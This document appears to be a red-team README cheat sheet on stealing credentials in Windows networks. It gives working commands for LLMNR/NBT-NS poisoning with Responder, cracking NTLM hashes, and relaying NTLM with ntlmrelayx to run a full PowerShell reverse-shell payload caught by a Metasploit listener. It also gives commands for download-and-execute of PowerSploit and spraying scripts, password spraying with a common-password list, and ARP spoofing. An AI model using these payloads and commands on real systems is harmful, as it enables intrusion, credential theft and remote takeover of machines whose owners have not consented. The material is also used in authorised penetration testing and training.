## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen1.png?raw=true)

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen2.png?raw=true)

```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen3.png?raw=true)

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen4.png?raw=true)

## Internal Password Spraying

### Get domain users using Kerberos
```
dig _ldap._tcp.dc._msdcs.Domain_Name // Find Domain Controller
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='domain.local',userdb=users.txt 10.196.1.13
```

### Get domain users using powerview
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1");
Get-DomainUser | select samaccountname > users.txt
```

### Get domain users using rpcclient
```
nmap -Pn -sS -p389,88 --open 10.10.0.0/16 // Find Domain Controller

rpcclient -U "" -N 10.10.1.50 // Authenticate Using Null Session
rpcclient -U "MEGA\hsaad" 10.10.1.50 // Authenticate Using Domain User & Password
>> enumdomusers // Enumerate All Domain Users
```

### Get domain password policy using powerview

```
(Get-DomainPolicy)."SystemAccess"
```

### Get domain password policy using rpcclient
```
>> getdompwinfo
```

### Password Spraying Using Hydra

Don't forget the lockout threshold if it exists, for example, if it set for 5 tries in 30 minutes, then can only try 4 failed attempts on every account every 30 minutes.
```
hydra -V -L users.txt -P pass.txt -m MEGA.local -t 1 10.10.1.50 smb
hydra -V -L users.txt -e nsr -m MEGA.local -t 1 10.10.1.50 smb
```

### Password Spraying Using DomainPasswordSpray
By default, the tool will enumerate the users in the domain, then will filter from them any disabled account or any account that reaches the limit of the lockout.
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1");
Invoke-DomainPasswordSpray -Password Spring2017
Invoke-DomainPasswordSpray -UserList users.txt -PasswordList passlist.txt
```

### Common Passwords
```
12345
123456
123456789
P@ssw0rd
P@ssword
P@ssword@123
password@123
Company_name@123
admin@123
```

## Sniffing

### ARPspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward // To enable traffic forwarding
arpspoof -i eth0 -t 10.0.2.6 -r 10.0.2.1
```

### Wireshark

Search For Passwords

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen5.png?raw=true)

Follow TCP Stream

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen6.png?raw=true)


### Ettercap

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Images/Screen7.png?raw=true)

URL: https://vimeo.com/368434044​
